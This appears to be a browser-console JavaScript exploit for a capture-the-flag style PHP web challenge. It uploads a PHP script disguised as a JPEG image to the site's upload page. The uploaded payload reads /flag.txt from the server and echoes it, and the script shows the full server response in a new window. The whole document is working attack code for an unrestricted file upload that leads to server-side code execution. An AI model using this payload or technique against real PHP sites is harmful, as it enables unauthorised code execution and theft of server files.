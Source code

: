 


async function viewFullUploadResponse() {
  // Get current origin dynamically
  const baseUrl = window.location.origin;
  const uploadUrl = new URL("/index.php?page=upload", baseUrl).href;
  console.log(`[+] Target URL: ${uploadUrl}`);

  // Create PHP payload
  const phpPayload = `<?php
    $flag = file_get_contents('/flag.txt');
    echo "Flag: $flag";
    exit(0);
  ?>`;

  // Create form data for upload
  const formData = new FormData();
  const fileBlob = new Blob([phpPayload], { type: "image/jpeg" });
  const randomName = `image_${Math.floor(Math.random() * 10000)}.php`;
  formData.append("uploaded", fileBlob, randomName);
  formData.append("Upload", "Upload");
  
  console.log(`[+] Attempting to upload disguised PHP file as: ${randomName}`);
  
  try {
    // Send the upload request
    const uploadResponse = await fetch(uploadUrl, {
      method: "POST",
      body: formData
    });
    
    const responseText = await uploadResponse.text();
    
    // Display the FULL response in the console
    console.log("========== FULL SERVER RESPONSE ==========");
    console.log(responseText);
    console.log("==========================================");
    
    // Also create a new window/tab with the response for easier viewing
    const newWindow = window.open();
    newWindow.document.write(`
      <html>
        <head>
          <title>Server Response</title>
          <style>
            body { font-family: monospace; white-space: pre-wrap; }
            .highlight { background-color: yellow; }
          </style>
        </head>
        <body>
          <h2>Full Server Response</h2>
          <div>${responseText}</div>
          
          <script>
            // Add a simple search function
            const search = prompt("Enter text to highlight (or cancel for none):");
            if (search && search.length > 0) {
              const content = document.body.innerHTML;
              document.body.innerHTML = content.replace(
                new RegExp(search, 'gi'),
                '<span class="highlight">$&</span>'
              );
            }
          </script>
        </body>
      </html>
    `);
    
    return responseText;
  } catch (error) {
    console.error(`[!] Error: ${error.message}`);
  }
}

// Execute and see the full response
viewFullUploadResponse();


